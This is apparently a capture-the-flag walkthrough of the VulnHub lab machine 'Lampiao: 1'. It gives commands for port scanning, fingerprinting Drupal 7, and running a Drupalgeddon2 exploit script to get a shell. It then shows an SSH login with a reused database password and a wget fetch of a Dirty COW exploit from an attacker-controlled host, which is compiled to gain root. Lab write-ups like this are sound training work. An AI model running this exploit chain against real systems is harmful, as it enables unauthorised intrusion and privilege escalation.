



### target:			Lampiao: 1 by Tiago Tavares
### hosted by:			vulnhub.com
### virtualization software: 	virtualbox
### testing platform:		kali linux 2017
### walkthrough by:		worzel-gummidge

the attacker uses **nmap** to probe for any open ports. 3 open ports are found: tcp22(ssh), tcp80(http) and tcp1898(http). **nmap** also reports back that *drupal 7* is running on tcp1898.
```bash
nmap -A -n -T5 -p1-65535 http://target
```

the attacker then uses **nikto** to run scans on the http ports(tcp80 and tcp1898). **nikto** confirms *drupal 7* is running on tcp1898.
```bash
nikto -h http://target:1898
```

using **BlindElephant.py**, the attacker is able to fingerprint what *drupal* version is running on the target machine.
```bash
BlindElephant.py http://target:1898 drupal
```
to find out if a vulnerability and an appropriate exploit exists for (maybe) *drupal 7.14*, the attacker uses **searchsploit**.
```bash
searchsploit drupal 7
```

the attacker launches the attack and spawns a limited, low privileged shell.
```bash
./44449.rb http://target:1898
```



after finding a database password in */sites/default/settings.php*, the attacker uses the password(Virgulino) along with the username *tiago* to login to the remote server via *ssh*. now the attacker has a more functional shell and is authenticated as user *tiago*.
```bash
ssh tiago@target
```



the attacker uses *seachsploit* once again to locate the *dirty COW* exploit on his local machine. apache2 services are started and the attacker serves the *dirty COW* exploit from her local server. via her *ssh* session on the remote target machine, the attacker uses *wget* to fetch the *dirty COW* exploit from her loacl server. the exploit is compiled and run.
```bash
wget http://attacker/40847.cpp
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
./dcow
su
```

the attacker has root.


